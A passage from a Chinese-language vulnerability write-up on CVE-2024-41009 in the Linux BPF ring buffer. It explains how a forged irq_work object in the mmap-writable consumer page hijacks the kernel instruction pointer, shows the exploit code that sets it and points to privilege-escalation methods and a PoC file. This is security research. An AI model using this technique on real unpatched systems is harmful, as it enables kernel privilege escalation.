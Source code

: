 該 function 會把 `irq_work` 新增到 work queue linked list 當中 [5]。

```c
// kernel/irq_work.c
static void __irq_work_queue_local(struct irq_work *work)
{
    struct llist_head *list;
    bool rt_lazy_work = false;
    bool lazy_work = false;
    int work_flags;

    // [...]
    if (lazy_work || rt_lazy_work)
        list = this_cpu_ptr(&lazy_list);
    else
        list = this_cpu_ptr(&raised_list);

    if (!llist_add(&work->node.llist, list)) // [5]
        return;
    // [...]
}
```

IRQ handler 會遍歷 work list 並執行每個 callback [6]，其中因為 work object 可控，因此 callback function 也可控。

```c
// kernel/irq_work.c
void irq_work_single(void *arg)
{
    struct irq_work *work = arg;
    int flags;

    flags = atomic_read(&work->node.a_flags);
    flags &= ~IRQ_WORK_PENDING;
    atomic_set(&work->node.a_flags, flags);

     // [...]
    lockdep_irq_work_enter(flags);
    work->func(work); // [6]
    lockdep_irq_work_exit(flags);
    // [...]
}
```

一旦可以控 RIP，就可以參考現有的手法，像是 spray JIT opcode 蓋寫 core dump pattern 等方式做到提權。

當確定資料可控後能成功做到提權，剩下就是想辦法設好 `hdr->pg_off`，讓 `bpf_ringbuf_restore_from_rec()` 回傳的 pointer 剛好落在資料為可控的 memory region。

`hdr->pg_off` 的定義是 **ring buffer object 與當前 header 的 page offset**，又因為 data 前面會有三個 pages，分別為 metadata、consumer position 以及 producer position，因此預設會從 3 開始往上加。然而，先前提到 consumer position page 可以透過 mmap 修改，因此如果直接把 `hdr->pg_off` 改成 2，就能讓 `irq_work` object 落在 consumer position page，這樣就可以控制整個 `irq_work` 的內容了。最後參考下面程式碼設置 consumer position page，就可以在 IRQ 發生時控 RIP 到 `0xdeadbeef`。

```c
*(unsigned long *)(consumer_pos + 0x00) = 0x3000; // consumer position
*(unsigned long *)(consumer_pos + 0x18) = 0x2; // flags
*(unsigned long *)(consumer_pos + 0x28) = 0xdeadbeef; // func
```

有興趣的讀者可以參考 [POC](/assets/cve-2024-41009-poc.c)。